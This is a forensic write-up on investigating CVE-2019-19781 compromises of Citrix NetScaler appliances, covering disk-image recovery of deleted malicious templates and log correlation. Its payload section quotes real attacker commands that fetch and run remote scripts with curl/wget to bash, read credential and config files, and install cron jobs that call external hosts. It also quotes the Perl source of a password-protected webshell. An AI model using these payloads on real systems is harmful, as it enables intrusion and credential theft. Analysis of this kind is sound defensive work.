



# Investigating: CVE-2019-19781 on Citrix NetScaler appliances

We got quite a few cases related to CVE-2019-19781 during the past few
weeks.

However, most of the NetScaler VM images we got were acquired after the
appliances were shut down, so we had no RAM image data. Unfortunately,
this also implicates the loss of the root file system `/`, as it turned
out that the root partition was mounted as a RAM disk.

Without knowledge about the internals of a live NetScaler appliance, it
first looked like we were stuck. However, we were lucky to stumble
across a local backup on an appliance we analyzed. The data we grabbed
from that proved handy for learning how the live system was organized
and how it apparently worked. Here is a sample output of the `mount -v`
and `uname -a` commands from one of these backups.

``` wp-block-preformatted
/dev/md0 on / (ufs, local, fsid <redacted>)            <-- RAM disk
devfs on /dev (devfs, local, multilabel, fsid <redacted>)
procfs on /proc (procfs, local, fsid <redacted>)
/dev/da0s1a on /flash (ufs, local, soft-updates, fsid <redacted>)
/dev/da0s1e on /var (ufs, local, soft-updates, fsid <redacted>)
```

``` wp-block-preformatted
FreeBSD cag 8.4-NETSCALER-12.1 FreeBSD 8.4-NETSCALER-12.1 #0: Fri Jan 18 10:39:40 PST 2019     root@<redacted>:/usr/obj/home/build/rs_121_50_16_RTM/usr.src/sys/NS64  amd64
```

So we had to deal with a FreeBSD and were left with the `/flash` and
`/var` partitions as the only persistent file systems. And, of course,
the swap partition.

## Mounting the virtual disk images

Almost all NetScaler images were in VMware VMDK format. This is how we
accessed these and mounted the FreeBSD file systems from a stock Linux.

``` wp-block-preformatted
# get access (read-only) to the raw data within the VMDK image
sudo affuse -o allow_other,ro ~/<redacted>-flat.vmdk /mnt/fuse/0/
# bind the raw device image to a loop device
# losetup will print out the device it created for you
sudo losetup --show -f -P /mnt/fuse/0/<redacted>-flat.vmdk.raw
# mmls will show you the layout of the loop device
sudo mmls -r /dev/loop17
# finally mount the partitions (read-only)
sudo mount -t ufs -o ufstype=ufs2,ro /dev/loop17p1 /mnt/loop/0/flash/
sudo mount -t ufs -o ufstype=ufs2,ro /dev/loop17p8 /mnt/loop/0/var/
```

### Pitfall: HGFS

We first tried to use a specialized Linux VM on VMware’s Workstation Pro
for analysis. Therefore, we accessed the initial VMDK via VMware’s HGFS,
used affuse, losetup and mount from within the VM. We later learned that
results of operations on the loop interfaces lacked a great amount of
data and repeated the mount process and operations on bare metal,
finally producing the expected amount of data.  
So, please be aware that results may be incorrect when accessing raw
image files through HGFS.

## Hunting the payloads

In each case, we have to establish some markers of what to look for in
order to catch the traces that would lead into the rabbit hole. We
primarily were after some hints of what the adversaries might have
injected into the NetScaler and how it might have manifested itself on
the persistent parts of the filesystem.

Thanks to some great work shared on
[isc.sans.edu](https://isc.sans.edu/) \[1\] and [Fireeye’s
blog](https://www.fireeye.com/blog/) \[2\], we had a clue of what kind
of payload we had to look out for. It was:  
1.) string-based,  
2.) injected into some obscure template files at
`/netscaler/portal/templates/`, and  
3.) contains commands interpreted by Bash, Perl or Python – IoC examples
were attached to the respective blog entries.

Since we did not have the root file system, we searched `/var` for a
similar directory as that might have been symlinked or bind-mounted into
the root file system to preserve templates across reboots. We found the
directory `/mnt/loop/0/var/tmp/netscaler/portal/templates/` – and it was
empty. Unfortunately, we didn’t even know what those template files
looked like.

Let’s see if there was anything present on the filesystem. We used
`sleuthkit` for this task.

``` wp-block-preformatted
# partition /flash
sudo fls -r -m /flash /dev/loop19p1 > flash_loop19p1.bodyfile
sudo mactime -b flash_loop19p1.bodyfile -d > flash_loop19p1.bodyfile.csv
# partition /var
sudo fls -r -m /var /dev/loop19p8 > var_loop19p8.bodyfile
sudo mactime -b var_loop19p8.bodyfile -d > var_loop19p8.bodyfile.csv
```

Now, we searched for entries of ‘portal/templates’ in the CSV files to
see if and which files were present there in the past:

``` wp-block-preformatted
grep 'portal/templates' var-loop19p8.bodyfile.csv
```



History of the /var/tmp/netscaler/portal/templates/ directory

These were quite a few entries! And all files were marked as ‘*deleted*‘
which explained why we did not find anything on the mounted `/var`
partition. We proceeded to extract all string data (remind: string-based
payload) from the loop devices, including the positional offset in
bytes:

``` wp-block-preformatted
# the /var partition
sudo strings -t d /dev/loop17p8 > strings_loop17p8.txt
# the swap partition
sudo strings -t d /dev/loop17p6 > strings_loop17p6.txt
```

Then, we could search after IoC strings like `d3SY1erQ` which is part of
a payload address that was hosted on pastebin.

``` wp-block-preformatted
user@host ~/path> grep 'd3SY1erQ' strings_loop17p8.txt | grep -v 'cron.info' 
13315990307     $output .=  $stash->get(['template', 0, 'new', [ { 'BLOCK' => 'print (curl -s https://pastebin.com/raw/d3SY1erQ||wget -q -O - https://pastebin.com/raw/d3SY1erQ)|bash'  } ]]); 
13316102947     $output .=  $stash->get(['template', 0, 'new', [ { 'BLOCK' => 'print (curl -s https://pastebin.com/raw/d3SY1erQ||wget -q -O - https://pastebin.com/raw/d3SY1erQ)|bash'  } ]]); 
user@host ~/path>
```

Bingo! We dug around those offsets (bold), including a few blocks before
and behind the offset. The payload is supposed to be embedded into some
file. Carving out about 100 blocks would give us about 50k of data.

``` wp-block-preformatted
# calculate the offset in blocks of 512 bytes (remember: mmls) 
# as used on /var
expr 13315990307 / 512
  --> offset: 26007793 blocks
# carve 100 blocks, starting 3 blocks (1536 bytes) ahead of the offset
dd if=/dev/loop17p8 of=/tmp/t1.txt skip=26007790 bs=512 count=100
```



A restored malicious template file

## Payload Extraction

Now we had a full template file containing the IoC payload string which
would – for this payload – result in an in-memory execution of the
payload upon successful download. But we also had a nice marker word
(marked with an orange circle) at the top of the template. If we
`grep`ped for that one, we might find data from all template files on
the `/var` partition. We also didn’t have to add prefix blocks to our
`dd` command anymore, as the offset of `modtime` is within 512 bytes of
the file start and thus within the same block.

Going even further, we wrote a small script to automatically extract all
template files found by that approach:

``` wp-block-preformatted
# Extract 100 blocks beginning from the offset indicated by the string 'modtime'
for i in $(grep "'modtime' => " strings_loop17p8.txt | cut -d " " -f 1); do
         sudo dd if=/dev/loop19p8 skip=$(expr $i / 512) \
         bs=512 count=100 \ 
         of=_proof_/var/tmp/netscaler/portal/templates/$i.raw;
 done;
```

We got rid of the trailing waste and named the files using timestamp and
original filename data extracted from the templates.

``` wp-block-preformatted
# Remove "waste" bytes extracted from loop19p8
for i in $(ls *.raw); do
        t=$(sed '7q;d' $i | sed "s/.*> '\(.*\)'.*/\1/g");
        n=$(sed '8q;d' $i | sed "s/.*> '\(.*\)'.*/\1/g");
        fname=$(echo ${t}_${n}.pl);
        cp $i $fname;
        sed -i '/^});$/q' $fname;
done;
```

Running those two scripts resulted in multiple files being restored from
the `/var` partition:

``` wp-block-preformatted
1578861925_BmNmUDMyhJJwNHUZqASepaIxcnYQUgWvK.xml.pl
1578825183_eKPEL.xml.pl
1578831111_IibQzjPMb.xml.pl
1578811719_OWYODVMKqVbq.xml.pl
1578769116_lsyBN.xml.pl
1578766725_cM9Tq.xml.pl
1579090597_dddd[%template.new({\'BLOCK\'=\'print`id`\'})%].xml.pl
1578837347_HnscEA.xml.pl
1578831360_qRioozCd7.xml.pl
1578796888_fwmnY.xml.pl
1578857328_qIlifapcNsmobhdWYzrdeHcOJWhZVkhdu.xml.pl
1578859141_UWhOOTOlqZBBxJggjvwrOCUVIllRrVyck.xml.pl
1578765558_Fbm86.xml.pl
1578844502_hncwlbiujq.xml.pl
1578783932_MN6BA.xml.pl
1578775015_pRxqndjxDPca.xml.pl
1578844778_t4BNV.xml.pl
1578846532_OHUiTzhuWQsyuckNILJuSmvUXlSKHtNTL.xml.pl
1578769909_7SzXA.xml.pl
1578819883_ty1af.xml.pl
1578792048_uG4bKf4Lsvld.xml.pl
1578772671_Bb1tTaSuN1gB.xml.pl
1578736122_somuniquestr.xml.pl
1578853394_NB2e8knSV.xml.pl
1578767851_VUhUzQ29PEDo.xml.pl
1578798888_cNa3o.xml.pl
```

## Payload Patterns

We now could investigate the injected payloads and classify them based
on their primary purpose.

### Pattern: Echo the payloads

``` wp-block-preformatted
'BLOCK' => 'print `grep -i block /netscaler/portal/templates/*.xml`'
```

This pattern does nothing but extract the line containing the keyword
`block` from all templates. Tells the bad dudes what’s around.

### Pattern: Extract the nsconfig

``` wp-block-preformatted
'BLOCK' => 'print `cat /flash/nsconfig/ns.conf`'
```

This pattern takes a copy of the NetScaler config and makes it available
to the adversaries. Since a lot of sensitive bits of data such as
NetScaler users and passwords, certificate paths and key passphrases,
network configurations and the like are stored in that world-readable
(WTF???) file, knowledge of this information may enable adversaries to
set up rogue web servers with stolen certificates, use stole credentials
against services and what not.

### Pattern: Check vulnerability, probes, extract random bits of information

``` wp-block-preformatted
1. 'BLOCK' => 'print `cat /etc/passwd`'
2. BLOCK => sub { return '' },
3. 'BLOCK' => 'print`id`'
4. 'BLOCK' => 'exec(\'echo sQHT6X| tee /netscaler/portal/templates/HnscEA.xml\'
[...]
```

This may be anything but one of the above or a shell.

### Pattern: Backdoor or Shell

``` wp-block-preformatted
1. 'BLOCK' => 'print `curl http://61.218.225.74/snspam/lurk/shell/am.txt  -o  /netscaler/portal/scripts/PersonalBookmak.pl`'

2. 'BLOCK' => '`echo -e \'\x75\x73\x65\x20[...]\x69\x74\x3b\x7d\'|tee /netscaler/portal/scripts/rmpm.pl `'

3. 'BLOCK' => 'print `(curl -s https://pastebin.com/raw/d3SY1erQ||wget -q -O - https://pastebin.com/raw/d3SY1erQ)|bash`'

4. 'BLOCK' => 'print readpipe(chr(40) . chr(99) . chr(117) . chr(114) . [...] . chr(115) . chr(119) . chr(100))'

5. eval { BLOCK: { $output .=  "* * * * * curl http://185.178.45.221/ci.sh | sh > /dev/null 2>&1\ncron good\n* * * * * curl http://62.113.112.33/ci.sh | sh > /dev/null 2>&1\ncron good\nRunning\n"; } };

6. 'BLOCK' => 'print readpipe(chr(47) . chr(118) . chr(97) . [...] . chr(41) . chr(59) . chr(39))'
```

The above are a selection of backdoor payloads we observed. Some came in
clear text, some came encoded (and we shortened them to fit here). Most
often, the payloads tried to load and store or execute additional code.

## Was a backdoor executed?

At the time of investigation, none of the remote resources was still
available, so we could not further analyze what would have been done if
downloaded code was executed. However, the backdoor number 6 encodes a
complete Perl script (multiple stages of decoding through Perl and
Python) and stores it at `/netscaler/portal/scripts/oldbm.pl`. This is a
password protected backdoor which takes the two parameters *pass* and
*conf*, the first being the backdoor password and the latter a list of
commands to be executed. The relevant part of the backdoor code is
displayed below. We will use this sample to explain how to find out if
it was run.

``` wp-block-preformatted
if ($ENV{'REQUEST_METHOD'} eq "POST")
 {
    read(STDIN, $citrixmd, $ENV{'CONTENT_LENGTH'});
    %FORM = parse_parameters($citrixmd);
    if(defined $FORM{'conf'}) {
      $citrixmd = $FORM{'conf'};
      if(defined $FORM{'pass'}) {
        my $md5hash = Digest::MD5->new;
        $md5hash->add($FORM{'pass'});
        if($md5hash->hexdigest == "b1c93a255ae2470af0740d64d3645ab1") {
      print "-"x80;
      print "\n";
      open(CMD, "($citrixmd) 2>&1 |") || print "Could not Deal";
      while() {
        print;
      }
      close(CMD);
      print "-"x80;
      print "\n";
        }
      }
    }
 }
```

The NetScaler appliances conserve logs of bash and shell commands.
Unfortunately, those log files may not date back as long as the
templates (as it was the case right here). So we might not be able to
tell if and what was executed between dropping the backdoors and the
beginning of bash and shell logs – provided they really would log every
command. The same would apply for backdoors that just execute binary
files or non-shell script code instead of handing commands over as a
parameter to a shell process.

So we looked out for another way to tell if and how long backdoors were
executed. As far as we understood the NetScaler structure, the templates
to `/netscaler/portal/templates/` would have to be executed by issuing
requests to the web server. Otherwise they would just sit there and do
no harm. If the web server logs reached back to the creation date of the
template files in question, we might have been able to establish if and
when the template was called (we were lucky in this case).

The template file corresponding the webshell backdoor shown above starts
as follows:

``` wp-block-preformatted
#------------------------------------------------------------------------
# Compiled template generated by the Template Toolkit version 2.24
#------------------------------------------------------------------------

Template::Document->new({
    METADATA => {
        'modtime' => '1578844502',
        'name' => 'hncwlbiujq.xml',
    },
    BLOCK => sub {
        my $context = [...]
```

While the `modtime` parameter contained an epoch time stamp, the `name`
parameter provided a filename we could grep for through the web server
logs. We also grepped for the dropped backdoor’s filename *oldbm.pl* in
the same command.

``` wp-block-preformatted
user@host ~/path> zgrep -E '(hncwlbiujq.xml|oldbm.pl)' /mnt/loop/0/var/log/http*
var/log/httpaccess.log.3.gz:127.0.0.2 - - [12/Jan/2020:16:55:15 +0100] "GET /vpn/../vpns/portal/hncwlbiujq.xml HTTP/1.1" 200 696 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0" "Time: 2252606 microsecs"
user@host ~/path> 
```

The backdoor was not executed yet, but the template had been called
exactly once. The call to the web server concluded with error code 200,
meaning there was no error in execution of the template content. We
compared the epoch timestamp from the template file with the log entry
timestamp:

``` wp-block-preformatted
user@host ~/path> date --date='@1578844502'
So Jan 12 16:55:02 CET 2020
user@host ~/path> 
```

The timezones matched for the season (CET = UTC+0100 during winter
time), so calculation was easy. The log entry was created 13 seconds
after template creation. Assuming a two-step approach of 1.) inject the
template and 2.) execute it to drop the backdoor, this was a plausible
offset. We were curious if there was something special about the runtime
of 2.25 seconds.

Extracting all runtime entries from all web server logs gave us a nice
baseline for a comparison and would also show if there were requests
with absurdly long runtimes which might hint on a blocking backdoor
call. The median runtime value was at 0.83 milliseconds, the mean value
was at 7.88 milliseconds. The highest runtime values were at 1.28
seconds and 2.25 seconds (this very request).



Evaluating HTTP request runtimes

## Conclusions

We showed that a case where we just had parts of a file system, no RAM
content, no firewall or proxy logs, no netflow, no DNS logs, was not a
lost case. We might not have been able to find out about everything
without the traces lost at shutdown, but we had enough hints left in the
NetScaler body to provide a rough overview of what was run and when.

### What we could see

- Contents of template files that had been created and deleted, but were
  not yet overwritten
- Bash and Shell commands which were executed in the recent past (but
  don’t count on it!)
- The execution of payloads dropped to template files
- The runtime of that execution
- Errors from bad exploit payload code (web server error logs which were
  not shown here)

### What we could not see

- Contents and, more important, historical changes on the RAM disk file
  system (i.e. further code downloaded to `/` by template code)
- Traces of in-memory code execution
- POST request bodies (especially commands transferred through webshell
  backdoors) because they were not logged
- Forked backdoor code execution runtimes as forked processes continue
  to run even after the forking code terminated (i.e. web server
  requests)
- Code not passed through Bash or Shell
- Commands passed through Bash or Shell which were lost due to log
  rollover

## References

\[1\]:  
<https://isc.sans.edu/forums/diary/Citrix+ADC+Exploits+Overview+of+Observed+Payloads/25704/>  
\[2\]:  
<https://www.fireeye.com/blog/threat-research/2020/01/vigilante-deploying-mitigation-for-citrix-netscaler-vulnerability-while-maintaining-backdoor.html>


